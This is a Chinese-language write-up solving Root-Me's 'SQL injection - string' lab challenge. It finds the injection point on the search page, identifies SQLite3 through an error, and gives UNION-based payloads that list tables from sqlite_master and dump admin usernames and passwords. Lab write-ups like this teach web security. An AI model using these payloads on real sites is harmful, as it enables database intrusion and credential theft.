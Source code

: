 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[SQL injection - string](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-string)] [[解题报告](http://exp-blog.com/2019/03/10/pid-3544/)]

------


SQLi 水题。关键是找到注入点。

查看页面源码，发现这题其实是有 3 个页面的：

- [`?action=news`](http://challenge01.root-me.org/web-serveur/ch19/?action=news)
- [`?action=login`](http://challenge01.root-me.org/web-serveur/ch19/?action=login)
- [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche)

虽然三个页面都有数据库查询操作，但是测试发现注入点在 [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche) 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/01.png)

------------

首先确认数据库类型，输入 payload ：`'exp error'` 故意不闭合引号，尝试令 SQL 报错。

通过页面回显的异常信息，可以确认是 SQLite3 数据库。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/02.png)

在 SQLite3 中只有一个系统隐藏表 sqlite_master ，其表结构如下：

```sql
CREATE TABLE sqlite_master (
    type TEXT,
    name TEXT,
    tbl_name TEXT,
    rootpage INTEGER,
    sql TEXT
);
```

这张表存储了数据库中每个数据表的信息，可以通过它找到其他数据表。

构造跨表查询 payload ：`exp' or 1=1 union select name, sql from sqlite_master --`

从中找到账户表及其表结构 `users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/03.png)

进一步构造 payload 跨表查询 users 的账号信息：

`exp' or 1=1 union select username, password from users --`

得到 admin 的密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

